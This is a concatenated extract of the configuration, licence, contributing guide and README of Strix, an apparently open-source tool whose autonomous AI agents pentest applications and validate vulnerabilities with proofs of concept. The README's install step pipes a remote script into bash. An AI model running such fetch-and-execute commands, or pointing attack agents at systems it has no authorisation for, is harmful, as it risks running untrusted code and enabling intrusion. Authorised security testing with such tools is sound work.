

# KNOWLEDGE EXTRACT: strix
> **Extracted on:** 2026-03-30 17:54:06
> **Source:** strix

---

## File: `.gitignore`
```
# Python
__pycache__/
*.py[cod]
*$py.class
*.so
.Python
build/
develop-eggs/
dist/
downloads/
eggs/
.eggs/
lib/
lib64/
parts/
sdist/
var/
wheels/
*.egg-info/
.installed.cfg
*.egg

# Virtual Environment
venv/
env/
ENV/
.env
.venv
pip-log.txt
pip-delete-this-directory.txt

# IDE
.idea/
.vscode/
*.swp
*.swo
.DS_Store
.project
.pydevproject
.settings/

# Testing
.tox/
.coverage
.coverage.*
.cache
nosetests.xml
coverage.xml
*.cover
.hypothesis/
.pytest_cache/
htmlcov/

# FastAPI
.env.local
.env.development.local
.env.test.local
.env.production.local

# MongoDB
data/
mongod.log
*.mongodb
*.mongorc.js

# LLM and ML related
*.bin
*.pt
*.pth
*.onnx
*.h5
*.hdf5
*.pkl
*.joblib
wandb/
runs/
checkpoints/
logs/
tensorboard/

# Agent execution traces
strix_runs/
agent_runs/

# Misc
*.log
*.sqlite
*.db
.directory
*.bak
*.tmp
*.temp
.DS_Store
Thumbs.db

*.schema.graphql
schema.graphql

.opencode/
```

## File: `.pre-commit-config.yaml`
```yaml
repos:
  # Ruff for fast linting and formatting
  - repo: https://github.com/astral-sh/ruff-pre-commit
    rev: v0.11.13
    hooks:
      - id: ruff
        args: [--fix, --exit-non-zero-on-fix]
        name: ruff-lint
      - id: ruff-format
        name: ruff-format

  # MyPy for static type checking
  - repo: https://github.com/pre-commit/mirrors-mypy
    rev: v1.16.0
    hooks:
      - id: mypy
        additional_dependencies: [
          types-requests,
          types-python-dateutil,
          pydantic,
          fastapi,
        ]
        args: [--install-types, --non-interactive]

  # Built-in hooks for basic file checks
  - repo: https://github.com/pre-commit/pre-commit-hooks
    rev: v5.0.0
    hooks:
      - id: trailing-whitespace
      - id: end-of-file-fixer
      - id: check-toml
      - id: check-merge-conflict
      - id: check-added-large-files
      - id: debug-statements
      - id: check-case-conflict
      - id: check-docstring-first

  # Security checks with bandit
  - repo: https://github.com/PyCQA/bandit
    rev: 1.8.3
    hooks:
      - id: bandit
        args: [-c, pyproject.toml]

  # Additional Python code quality checks
  - repo: https://github.com/asottile/pyupgrade
    rev: v3.20.0
    hooks:
      - id: pyupgrade
        args: [--py312-plus]

ci:
  autofix_commit_msg: |
    [pre-commit.ci] auto fixes from pre-commit.com hooks

    for more information, see https://pre-commit.ci
  autofix_prs: true
  autoupdate_branch: ""
  autoupdate_commit_msg: "[pre-commit.ci] pre-commit autoupdate"
  autoupdate_schedule: weekly
  skip: []
  submodules: false
```

## File: `CONTRIBUTING.md`
```markdown
# Contributing to Strix

Thank you for your interest in contributing to Strix! This guide will help you get started with development and contributions.

## 🚀 Development Setup

### Prerequisites

- Python 3.12+
- Docker (running)
- Poetry (for dependency management)
- Git

### Local Development

1. **Clone the repository**
   ```bash
   git clone https://github.com/usestrix/strix.git
   cd strix
   ```

2. **Install development dependencies**
   ```bash
   make setup-dev

   # or manually:
   poetry install --with=dev
   poetry run pre-commit install
   ```

3. **Configure your LLM provider**
   ```bash
   export STRIX_LLM="openai/gpt-5"
   export LLM_API_KEY='[REDACTED_API_KEY]'
   ```

4. **Run Strix in development mode**
   ```bash
   poetry run strix --target https://example.com
   ```

## 📚 Contributing Skills

Skills are specialized knowledge packages that enhance agent capabilities. See [strix/skills/README.md](strix/skills/README.md) for detailed guidelines.

### Quick Guide

1. **Choose the right category** (`/vulnerabilities`, `/frameworks`, `/technologies`, etc.)
2. **Create a** `.md` file with your skill content
3. **Include practical examples** - Working payloads, commands, or test cases
4. **Provide validation methods** - How to confirm findings and avoid false positives
5. **Submit via PR** with clear description

## 🔧 Contributing Code

### Pull Request Process

1. **Create an issue first** - Describe the problem or feature
2. **Fork and branch** - Work from the `main` branch
3. **Make your changes** - Follow existing code style
4. **Write/update tests** - Ensure coverage for new features
5. **Run quality checks** - `make check-all` should pass
6. **Submit PR** - Link to issue and provide context

### PR Guidelines

- **Clear description** - Explain what and why
- **Small, focused changes** - One feature/fix per PR
- **Include examples** - Show before/after behavior
- **Update documentation** - If adding features
- **Pass all checks** - Tests, linting, type checking

### Code Style

- Follow PEP 8 with 100-character line limit
- Use type hints for all functions
- Write docstrings for public methods
- Keep functions focused and small
- Use meaningful variable names

## 🐛 Reporting Issues

When reporting bugs, please include:

- Python version and OS
- Strix version
- LLMs being used
- Full error traceback
- Steps to reproduce
- Expected vs actual behavior

## 💡 Feature Requests

We welcome feature ideas! Please:

- Check existing issues first
- Describe the use case clearly
- Explain why it would benefit users
- Consider implementation approach
- Be open to discussion

## 🤝 Community

- **Discord**: [Join our community](https://discord.gg/strix-ai)
- **Issues**: [GitHub Issues](https://github.com/usestrix/strix/issues)

## ✨ Recognition

We value all contributions! Contributors will be:
- Listed in release notes
- Thanked in our Discord
- Added to contributors list (coming soon)

---

**Questions?** Reach out on [Discord](https://discord.gg/strix-ai) or create an issue. We're here to help!
```

## File: `LICENSE`
```
                                 Apache License
                           Version 2.0, January 2004
                        http://www.apache.org/licenses/

   TERMS AND CONDITIONS FOR USE, REPRODUCTION, AND DISTRIBUTION

   1. Definitions.

      "License" shall mean the terms and conditions for use, reproduction,
      and distribution as defined by Sections 1 through 9 of this document.

      "Licensor" shall mean the copyright owner or entity authorized by
      the copyright owner that is granting the License.

      "Legal Entity" shall mean the union of the acting entity and all
      other entities that control, are controlled by, or are under common
      control with that entity. For the purposes of this definition,
      "control" means (i) the power, direct or indirect, to cause the
      direction or management of such entity, whether by contract or
      otherwise, or (ii) ownership of fifty percent (50%) or more of the
      outstanding shares, or (iii) beneficial ownership of such entity.

      "You" (or "Your") shall mean an individual or Legal Entity
      exercising permissions granted by this License.

      "Source" form shall mean the preferred form for making modifications,
      including but not limited to software source code, documentation
      source, and configuration files.

      "Object" form shall mean any form resulting from mechanical
      transformation or translation of a Source form, including but
      not limited to compiled object code, generated documentation,
      and conversions to other media types.

      "Work" shall mean the work of authorship, whether in Source or
      Object form, made available under the License, as indicated by a
      copyright notice that is included in or attached to the work
      (an example is provided in the Appendix below).

      "Derivative Works" shall mean any work, whether in Source or Object
      form, that is based on (or derived from) the Work and for which the
      editorial revisions, annotations, elaborations, or other modifications
      represent, as a whole, an original work of authorship. For the purposes
      of this License, Derivative Works shall not include works that remain
      separable from, or merely link (or bind by name) to the interfaces of,
      the Work and Derivative Works thereof.

      "Contribution" shall mean any work of authorship, including
      the original version of the Work and any modifications or additions
      to that Work or Derivative Works thereof, that is intentionally
      submitted to Licensor for inclusion in the Work by the copyright owner
      or by an individual or Legal Entity authorized to submit on behalf of
      the copyright owner. For the purposes of this definition, "submitted"
      means any form of electronic, verbal, or written communication sent
      to the Licensor or its representatives, including but not limited to
      communication on electronic mailing lists, source code control systems,
      and issue tracking systems that are managed by, or on behalf of, the
      Licensor for the purpose of discussing and improving the Work, but
      excluding communication that is conspicuously marked or otherwise
      designated in writing by the copyright owner as "Not a Contribution."

      "Contributor" shall mean Licensor and any individual or Legal Entity
      on behalf of whom a Contribution has been received by Licensor and
      subsequently incorporated within the Work.

   2. Grant of Copyright License. Subject to the terms and conditions of
      this License, each Contributor hereby grants to You a perpetual,
      worldwide, non-exclusive, no-charge, royalty-free, irrevocable
      copyright license to reproduce, prepare Derivative Works of,
      publicly display, publicly perform, sublicense, and distribute the
      Work and such Derivative Works in Source or Object form.

   3. Grant of Patent License. Subject to the terms and conditions of
      this License, each Contributor hereby grants to You a perpetual,
      worldwide, non-exclusive, no-charge, royalty-free, irrevocable
      (except as stated in this section) patent license to make, have made,
      use, offer to sell, sell, import, and otherwise transfer the Work,
      where such license applies only to those patent claims licensable
      by such Contributor that are necessarily infringed by their
      Contribution(s) alone or by combination of their Contribution(s)
      with the Work to which such Contribution(s) was submitted. If You
      institute patent litigation against any entity (including a
      cross-claim or counterclaim in a lawsuit) alleging that the Work
      or a Contribution incorporated within the Work constitutes direct
      or contributory patent infringement, then any patent licenses
      granted to You under this License for that Work shall terminate
      as of the date such litigation is filed.

   4. Redistribution. You may reproduce and distribute copies of the
      Work or Derivative Works thereof in any medium, with or without
      modifications, and in Source or Object form, provided that You
      meet the following conditions:

      (a) You must give any other recipients of the Work or
          Derivative Works a copy of this License; and

      (b) You must cause any modified files to carry prominent notices
          stating that You changed the files; and

      (c) You must retain, in the Source form of any Derivative Works
          that You distribute, all copyright, patent, trademark, and
          attribution notices from the Source form of the Work,
          excluding those notices that do not pertain to any part of
          the Derivative Works; and

      (d) If the Work includes a "NOTICE" text file as part of its
          distribution, then any Derivative Works that You distribute must
          include a readable copy of the attribution notices contained
          within such NOTICE file, excluding those notices that do not
          pertain to any part of the Derivative Works, in at least one
          of the following places: within a NOTICE text file distributed
          as part of the Derivative Works; within the Source form or
          documentation, if provided along with the Derivative Works; or,
          within a display generated by the Derivative Works, if and
          wherever such third-party notices normally appear. The contents
          of the NOTICE file are for informational purposes only and
          do not modify the License. You may add Your own attribution
          notices within Derivative Works that You distribute, alongside
          or as an addendum to the NOTICE text from the Work, provided
          that such additional attribution notices cannot be construed
          as modifying the License.

      You may add Your own copyright statement to Your modifications and
      may provide additional or different license terms and conditions
      for use, reproduction, or distribution of Your modifications, or
      for any such Derivative Works as a whole, provided Your use,
      reproduction, and distribution of the Work otherwise complies with
      the conditions stated in this License.

   5. Submission of Contributions. Unless You explicitly state otherwise,
      any Contribution intentionally submitted for inclusion in the Work
      by You to the Licensor shall be under the terms and conditions of
      this License, without any additional terms or conditions.
      Notwithstanding the above, nothing herein shall supersede or modify
      the terms of any separate license agreement you may have executed
      with Licensor regarding such Contributions.

   6. Trademarks. This License does not grant permission to use the trade
      names, trademarks, service marks, or product names of the Licensor,
      except as required for reasonable and customary use in describing the
      origin of the Work and reproducing the content of the NOTICE file.

   7. Disclaimer of Warranty. Unless required by applicable law or
      agreed to in writing, Licensor provides the Work (and each
      Contributor provides its Contributions) on an "AS IS" BASIS,
      WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or
      implied, including, without limitation, any warranties or conditions
      of TITLE, NON-INFRINGEMENT, MERCHANTABILITY, or FITNESS FOR A
      PARTICULAR PURPOSE. You are solely responsible for determining the
      appropriateness of using or redistributing the Work and assume any
      risks associated with Your exercise of permissions under this License.

   8. Limitation of Liability. In no event and under no legal theory,
      whether in tort (including negligence), contract, or otherwise,
      unless required by applicable law (such as deliberate and grossly
      negligent acts) or agreed to in writing, shall any Contributor be
      liable to You for damages, including any direct, indirect, special,
      incidental, or consequential damages of any character arising as a
      result of this License or out of the use or inability to use the
      Work (including but not limited to damages for loss of goodwill,
      work stoppage, computer failure or malfunction, or any and all
      other commercial damages or losses), even if such Contributor
      has been advised of the possibility of such damages.

   9. Accepting Warranty or Additional Liability. While redistributing
      the Work or Derivative Works thereof, You may choose to offer,
      and charge a fee for, acceptance of support, warranty, indemnity,
      or other liability obligations and/or rights consistent with this
      License. However, in accepting such obligations, You may act only
      on Your own behalf and on Your sole responsibility, not on behalf
      of any other Contributor, and only if You agree to indemnify,
      defend, and hold each Contributor harmless for any liability
      incurred by, or claims asserted against, such Contributor by reason
      of your accepting any such warranty or additional liability.

   END OF TERMS AND CONDITIONS

   APPENDIX: How to apply the Apache License to your work.

      To apply the Apache License to your work, attach the following
      boilerplate notice, with the fields enclosed by brackets "[]"
      replaced with your own identifying information. (Don't include
      the brackets!)  The text should be enclosed in the appropriate
      comment syntax for the file format. We also recommend that a
      file or class name and description of purpose be included on the
      same "printed page" as the copyright notice for easier
      identification within third-party archives.

   Copyright 2025 OmniSecure Inc.

   Licensed under the Apache License, Version 2.0 (the "License");
   you may not use this file except in compliance with the License.
   You may obtain a copy of the License at

       http://www.apache.org/licenses/LICENSE-2.0

   Unless required by applicable law or agreed to in writing, software
   distributed under the License is distributed on an "AS IS" BASIS,
   WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
   See the License for the specific language governing permissions and
   limitations under the License.
```

## File: `Makefile`
```
.PHONY: help install dev-install format lint type-check test test-cov clean pre-commit setup-dev

help:
	@echo "Available commands:"
	@echo "  setup-dev     - Install all development dependencies and setup pre-commit"
	@echo "  install       - Install production dependencies"
	@echo "  dev-install   - Install development dependencies"
	@echo ""
	@echo "Code Quality:"
	@echo "  format        - Format code with ruff"
	@echo "  lint          - Lint code with ruff and pylint"
	@echo "  type-check    - Run type checking with mypy and pyright"
	@echo "  security      - Run security checks with bandit"
	@echo "  check-all     - Run all code quality checks"
	@echo ""
	@echo "Testing:"
	@echo "  test          - Run tests with pytest"
	@echo "  test-cov      - Run tests with coverage reporting"
	@echo ""
	@echo "Development:"
	@echo "  pre-commit    - Run pre-commit hooks on all files"
	@echo "  clean         - Clean up cache files and artifacts"

install:
	poetry install --only=main

dev-install:
	poetry install --with=dev

setup-dev: dev-install
	poetry run pre-commit install
	@echo "✅ Development environment setup complete!"
	@echo "Run 'make check-all' to verify everything works correctly."

format:
	@echo "🎨 Formatting code with ruff..."
	poetry run ruff format .
	@echo "✅ Code formatting complete!"

lint:
	@echo "🔍 Linting code with ruff..."
	poetry run ruff check . --fix
	@echo "📝 Running additional linting with pylint..."
	poetry run pylint strix/ --score=no --reports=no
	@echo "✅ Linting complete!"

type-check:
	@echo "🔍 Type checking with mypy..."
	poetry run mypy strix/
	@echo "🔍 Type checking with pyright..."
	poetry run pyright strix/
	@echo "✅ Type checking complete!"

security:
	@echo "🔒 Running security checks with bandit..."
	poetry run bandit -r strix/ -c pyproject.toml
	@echo "✅ Security checks complete!"

check-all: format lint type-check security
	@echo "✅ All code quality checks passed!"

test:
	@echo "🧪 Running tests..."
	poetry run pytest -v
	@echo "✅ Tests complete!"

test-cov:
	@echo "🧪 Running tests with coverage..."
	poetry run pytest -v --cov=strix --cov-report=term-missing --cov-report=html
	@echo "✅ Tests with coverage complete!"
	@echo "📊 Coverage report generated in htmlcov/"

pre-commit:
	@echo "🔧 Running pre-commit hooks..."
	poetry run pre-commit run --all-files
	@echo "✅ Pre-commit hooks complete!"

clean:
	@echo "🧹 Cleaning up cache files..."
	find . -type d -name "__pycache__" -exec rm -rf {} + 2>/dev/null || true
	find . -type d -name ".pytest_cache" -exec rm -rf {} + 2>/dev/null || true
	find . -type d -name ".mypy_cache" -exec rm -rf {} + 2>/dev/null || true
	find . -type d -name ".ruff_cache" -exec rm -rf {} + 2>/dev/null || true
	find . -type d -name "htmlcov" -exec rm -rf {} + 2>/dev/null || true
	find . -name "*.pyc" -delete 2>/dev/null || true
	find . -name ".coverage" -delete 2>/dev/null || true
	@echo "✅ Cleanup complete!"

dev: format lint type-check test
	@echo "✅ Development cycle complete!"
```

## File: `pyproject.toml`
```
[tool.poetry]
name = "strix-agent"
version = "0.8.2"
description = "Open-source AI Hackers for your apps"
authors = ["Strix <hi@usestrix.com>"]
readme = "README.md"
license = "Apache-2.0"
keywords = [
  "cybersecurity",
  "security",
  "vulnerability",
  "scanner",
  "pentest",
  "agent",
  "ai",
  "cli",
]
classifiers = [
  "Development Status :: 3 - Alpha",
  "Intended Audience :: Information Technology",
  "Intended Audience :: System Administrators",
  "Topic :: Security",
  "License :: OSI Approved :: Apache Software License",
  "Environment :: Console",
  "Programming Language :: Python",
  "Programming Language :: Python :: 3",
  "Programming Language :: Python :: 3 :: Only",
  "Programming Language :: Python :: 3.12",
  "Programming Language :: Python :: 3.13",
  "Programming Language :: Python :: 3.14",
]
packages = [
  { include = "strix", format = ["sdist", "wheel"] }
]
include = [
  "LICENSE",
  "README.md",
  "strix/agents/**/*.jinja",
  "strix/skills/**/*.md",
  "strix/**/*.xml",
  "strix/**/*.tcss"
]

[tool.poetry.scripts]
strix = "strix.interface.main:main"

[tool.poetry.dependencies]
python = "^3.12"
# Core CLI dependencies
litellm = { version = "~1.81.1", extras = ["proxy"] }
tenacity = "^9.0.0"
pydantic = {extras = ["email"], version = "^2.11.3"}
rich = "*"
docker = "^7.1.0"
textual = "^4.0.0"
xmltodict = "^0.13.0"
requests = "^2.32.0"
cvss = "^3.2"
traceloop-sdk = "^0.53.0"
opentelemetry-exporter-otlp-proto-http = "^1.40.0"
scrubadub = "^2.0.1"

# Optional LLM provider dependencies
google-cloud-aiplatform = { version = ">=1.38", optional = true }

# Sandbox-only dependencies (only needed inside Docker container)
fastapi = { version = "*", optional = true }
uvicorn = { version = "*", optional = true }
ipython = { version = "^9.3.0", optional = true }
openhands-aci = { version = "^0.3.0", optional = true }
playwright = { version = "^1.48.0", optional = true }
gql = { version = "^3.5.3", extras = ["requests"], optional = true }
pyte = { version = "^0.8.1", optional = true }
libtmux = { version = "^0.46.2", optional = true }
numpydoc = { version = "^1.8.0", optional = true }
defusedxml = "^0.7.1"

[tool.poetry.extras]
vertex = ["google-cloud-aiplatform"]
sandbox = ["fastapi", "uvicorn", "ipython", "openhands-aci", "playwright", "gql", "pyte", "libtmux", "numpydoc"]

[tool.poetry.group.dev.dependencies]
# Type checking and static analysis
mypy = "^1.16.0"
ruff = "^0.11.13"
pyright = "^1.1.401"
pylint = "^3.3.7"
bandit = "^1.8.3"

# Testing
pytest = "^8.4.0"
pytest-asyncio = "^1.0.0"
pytest-cov = "^6.1.1"
pytest-mock = "^3.14.1"

# Development tools
pre-commit = "^4.2.0"
black = "^25.1.0"
isort = "^6.0.1"

# Build tools
pyinstaller = { version = "^6.17.0", python = ">=3.12,<3.15" }

[build-system]
requires = ["poetry-core"]
build-backend = "poetry.core.masonry.api"

# ============================================================================
# Type Checking Configuration
# ============================================================================

[tool.mypy]
python_version = "3.12"
strict = true
strict_optional = true
warn_redundant_casts = true
warn_unused_ignores = true
warn_return_any = true
warn_unreachable = true
disallow_untyped_defs = true
disallow_any_generics = true
disallow_subclassing_any = true
disallow_untyped_calls = true
disallow_incomplete_defs = true
check_untyped_defs = true
disallow_untyped_decorators = true
no_implicit_optional = true
warn_unused_configs = true
show_error_codes = true
show_column_numbers = true
pretty = true

# Allow some flexibility for third-party libraries
[[tool.mypy.overrides]]
module = [
    "litellm.*",
    "tenacity.*",
    "numpydoc.*",
    "rich.*",
    "IPython.*",
    "openhands_aci.*",
    "playwright.*",
    "uvicorn.*",
    "jinja2.*",
    "pydantic_settings.*",
    "jwt.*",
    "httpx.*",
    "gql.*",
    "textual.*",
    "pyte.*",
    "libtmux.*",
    "pytest.*",
    "cvss.*",
    "opentelemetry.*",
    "scrubadub.*",
    "traceloop.*",
]
ignore_missing_imports = true

# Relax strict rules for test files (pytest decorators are not fully typed)
[[tool.mypy.overrides]]
module = ["tests.*"]
disallow_untyped_decorators = false
disallow_untyped_defs = false

# ============================================================================
# Ruff Configuration (Fast Python Linter & Formatter)
# ============================================================================

[tool.ruff]
target-version = "py312"
line-length = 100
extend-exclude = [
    ".git",
    ".mypy_cache",
    ".pytest_cache",
    ".ruff_cache",
    "__pycache__",
    "build",
    "dist",
    "migrations",
]

[tool.ruff.lint]
# Enable comprehensive rule sets
select = [
    "E",   # pycodestyle errors
    "W",   # pycodestyle warnings
    "F",   # Pyflakes
    "I",   # isort
    "N",   # pep8-naming
    "UP",  # pyupgrade
    "YTT", # flake8-2020
    "S",   # flake8-bandit
    "BLE", # flake8-blind-except
    "FBT", # flake8-boolean-trap
    "B",   # flake8-bugbear
    "A",   # flake8-builtins
    "COM", # flake8-commas
    "C4",  # flake8-comprehensions
    "DTZ", # flake8-datetimez
    "T10", # flake8-debugger
    "EM",  # flake8-errmsg
    "FA",  # flake8-future-annotations
    "ISC", # flake8-implicit-str-concat
    "ICN", # flake8-import-conventions
    "G",   # flake8-logging-format
    "INP", # flake8-no-pep420
    "PIE", # flake8-pie
    "T20", # flake8-print
    "PYI", # flake8-pyi
    "PT",  # flake8-pytest-style
    "Q",   # flake8-quotes
    "RSE", # flake8-raise
    "RET", # flake8-return
    "SLF", # flake8-self
    "SIM", # flake8-simplify
    "TID", # flake8-tidy-imports
    "TCH", # flake8-type-checking
    "ARG", # flake8-unused-arguments
    "PTH", # flake8-use-pathlib
    "ERA", # eradicate
    "PD",  # pandas-vet
    "PGH", # pygrep-hooks
    "PL",  # Pylint
    "TRY", # tryceratops
    "FLY", # flynt
    "PERF", # Perflint
    "RUF", # Ruff-specific rules
]

ignore = [
    "S101",   # Use of assert
    "S104",   # Possible binding to all interfaces
    "S301",   # Use of pickle
    "COM812", # Missing trailing comma (handled by formatter)
    "ISC001", # Single line implicit string concatenation (handled by formatter)
    "PLR0913", # Too many arguments to function call
    "TRY003",  # Avoid specifying long messages outside the exception class
    "EM101",   # Exception must not use a string literal
    "EM102",   # Exception must not use an f-string literal
    "FBT001",  # Boolean positional arg in function definition
    "FBT002",  # Boolean default positional argument in function definition
    "G004",    # Logging statement uses f-string
    "PLR2004", # Magic value used in comparison
    "SLF001",  # Private member accessed
]

[tool.ruff.lint.per-file-ignores]
"tests/**/*.py" = [
    "S106",   # Possible hardcoded password
    "S108",   # Possible insecure usage of temporary file/directory
    "ARG001", # Unused function argument
    "PLR2004", # Magic value used in comparison
]
"strix/tools/**/*.py" = [
    "ARG001", # Unused function argument (tools may have unused args for interface consistency)
]

[tool.ruff.lint.isort]
force-single-line = false
lines-after-imports = 2
known-first-party = ["strix"]
known-third-party = ["fastapi", "pydantic"]

[tool.ruff.lint.pylint]
max-args = 8

[tool.ruff.format]
quote-style = "double"
indent-style = "space"
skip-magic-trailing-comma = false
line-ending = "auto"

# ============================================================================
# PyRight Configuration (Alternative type checker)
# ============================================================================

[tool.pyright]
include = ["strix"]
exclude = ["**/__pycache__", "build", "dist"]
pythonVersion = "3.12"
pythonPlatform = "Linux"

typeCheckingMode = "strict"
reportMissingImports = true
reportMissingTypeStubs = false
reportGeneralTypeIssues = true
reportPropertyTypeMismatch = true
reportFunctionMemberAccess = true
reportMissingParameterType = true
reportMissingTypeArgument = true
reportIncompatibleMethodOverride = true
reportIncompatibleVariableOverride = true
reportInconsistentConstructor = true
reportOverlappingOverload = true
reportConstantRedefinition = true
reportImportCycles = true
reportUnusedImport = true
reportUnusedClass = true
reportUnusedFunction = true
reportUnusedVariable = true
reportDuplicateImport = true

# ============================================================================
# Black Configuration (Code Formatter)
# ============================================================================

[tool.black]
line-length = 100
target-version = ['py312']
include = '\\.pyi?$'
extend-exclude = '''
/(
  # directories
  \.eggs
  | \.git
  | \.hg
  | \.mypy_cache
  | \.tox
  | \.venv
  | build
  | dist
)/
'''

# ============================================================================
# isort Configuration (Import Sorting)
# ============================================================================

[tool.isort]
profile = "black"
line_length = 100
multi_line_output = 3
include_trailing_comma = true
force_grid_wrap = 0
use_parentheses = true
ensure_newline_before_comments = true
known_first_party = ["strix"]
known_third_party = ["fastapi", "pydantic", "litellm", "tenacity"]

# ============================================================================
# Pytest Configuration
# ============================================================================

[tool.pytest.ini_options]
minversion = "6.0"
addopts = [
    "--strict-markers",
    "--strict-config",
    "--cov=strix",
    "--cov-report=term-missing",
    "--cov-report=html",
    "--cov-report=xml",
]
testpaths = ["tests"]
python_files = ["test_*.py", "*_test.py"]
python_functions = ["test_*"]
python_classes = ["Test*"]
asyncio_mode = "auto"

[tool.coverage.run]
source = ["strix"]
omit = [
    "*/tests/*",
    "*/migrations/*",
    "*/__pycache__/*"
]

[tool.coverage.report]
exclude_lines = [
    "pragma: no cover",
    "def __repr__",
    "if self.debug:",
    "if settings.DEBUG",
    "raise AssertionError",
    "raise NotImplementedError",
    "if 0:",
    "if __name__ == .__main__.:",
    "class .*\\bProtocol\\):",
    "@(abc\\.)?abstractmethod",
]

# ============================================================================
# Bandit Configuration (Security Linting)
# ============================================================================

[tool.bandit]
exclude_dirs = ["tests", "docs", "build", "dist"]
skips = ["B101", "B601", "B404", "B603", "B607"]  # Skip assert, shell injection, subprocess import and partial path checks
severity = "medium"
```

## File: `README.md`
```markdown
<p align="center">
  <a href="https://strix.ai/">
    
  </a>
</p>

<div align="center">

# Strix

### Open-source AI hackers to find and fix your app’s vulnerabilities.

<br/>


<a href="https://docs.strix.ai"></a>
<a href="https://strix.ai"></a>
[](https://discord.gg/strix-ai)

<a href="https://deepwiki.com/usestrix/strix"></a>
<a href="https://github.com/usestrix/strix"></a>
<a href="LICENSE"></a>
<a href="https://pypi.org/project/strix-agent/"></a>


<a href="https://discord.gg/strix-ai"></a>
<a href="https://x.com/strix_ai"></a>


<a href="https://trendshift.io/repositories/15362" target="_blank"></a>

</div>


---


## Strix Overview

Strix are autonomous AI agents that act just like real hackers - they run your code dynamically, find vulnerabilities, and validate them through actual proof-of-concepts. Built for developers and security teams who need fast, accurate security testing without the overhead of manual pentesting or the false positives of static analysis tools.

**Key Capabilities:**

- **Full hacker toolkit** out of the box
- **Teams of agents** that collaborate and scale
- **Real validation** with PoCs, not false positives
- **Developer‑first** CLI with actionable reports
- **Auto‑fix & reporting** to accelerate remediation


<br>


<div align="center">
  <a href="https://strix.ai">
    
  </a>
</div>


## Use Cases

- **Application Security Testing** - Detect and validate critical vulnerabilities in your applications
- **Rapid Penetration Testing** - Get penetration tests done in hours, not weeks, with compliance reports
- **Bug Bounty Automation** - Automate bug bounty research and generate PoCs for faster reporting
- **CI/CD Integration** - Run tests in CI/CD to block vulnerabilities before reaching production

## 🚀 Quick Start

**Prerequisites:**
- Docker (running)
- An LLM API key:
  - Any [supported provider](https://docs.strix.ai/llm-providers/overview) (OpenAI, Anthropic, Google, etc.)
  - Or [Strix Router](https://models.strix.ai) — single API key for multiple providers

### Installation & First Scan

```bash
# Install Strix
curl -sSL https://strix.ai/install | bash

# Configure your AI provider
export STRIX_LLM="openai/gpt-5"  # or "strix/gpt-5" via Strix Router (https://models.strix.ai)
export LLM_API_KEY='[REDACTED_API_KEY]'

# Run your first security assessment
strix --target ./app-directory
```

> [!NOTE]
> First run automatically pulls the sandbox Docker image. Results are saved to `strix_runs/<run-name>`

---

## ☁️ Strix Platform

Try the Strix full-stack security platform at **[app.strix.ai](https://app.strix.ai)** — sign up for free, connect your repos and domains, and launch a pentest in minutes.

- **Validated findings with PoCs** and reproduction steps
- **One-click autofix** as ready-to-merge pull requests
- **Continuous monitoring** across code, cloud, and infrastructure
- **Integrations** with GitHub, Slack, Jira, Linear, and CI/CD pipelines
- **Continuous learning** that builds on past findings and remediations

[**Start your first pentest →**](https://app.strix.ai)

---

## ✨ Features

### Agentic Security Tools

Strix agents come equipped with a comprehensive security testing toolkit:

- **Full HTTP Proxy** - Full request/response manipulation and analysis
- **Browser Automation** - Multi-tab browser for testing of XSS, CSRF, auth flows
- **Terminal Environments** - Interactive shells for command execution and testing
- **Python Runtime** - Custom exploit development and validation
- **Reconnaissance** - Automated OSINT and attack surface mapping
- **Code Analysis** - Static and dynamic analysis capabilities
- **Knowledge Management** - Structured findings and attack documentation

### Comprehensive Vulnerability Detection

Strix can identify and validate a wide range of security vulnerabilities:

- **Access Control** - IDOR, privilege escalation, auth bypass
- **Injection Attacks** - SQL, NoSQL, command injection
- **Server-Side** - SSRF, XXE, deserialization flaws
- **Client-Side** - XSS, prototype pollution, DOM vulnerabilities
- **Business Logic** - Race conditions, workflow manipulation
- **Authentication** - JWT vulnerabilities, session management
- **Infrastructure** - Misconfigurations, exposed services

### Graph of Agents

Advanced multi-agent orchestration for comprehensive security testing:

- **Distributed Workflows** - Specialized agents for different attacks and assets
- **Scalable Testing** - Parallel execution for fast comprehensive coverage
- **Dynamic Coordination** - Agents collaborate and share discoveries

---

## Usage Examples

### Basic Usage

```bash
# Scan a local codebase
strix --target ./app-directory

# Security review of a GitHub repository
strix --target https://github.com/org/repo

# Black-box web application assessment
strix --target https://your-app.com
```

### Advanced Testing Scenarios

```bash
# Grey-box authenticated testing
strix --target https://your-app.com --instruction "Perform authenticated testing using credentials: user:pass"

# Multi-target testing (source code + deployed app)
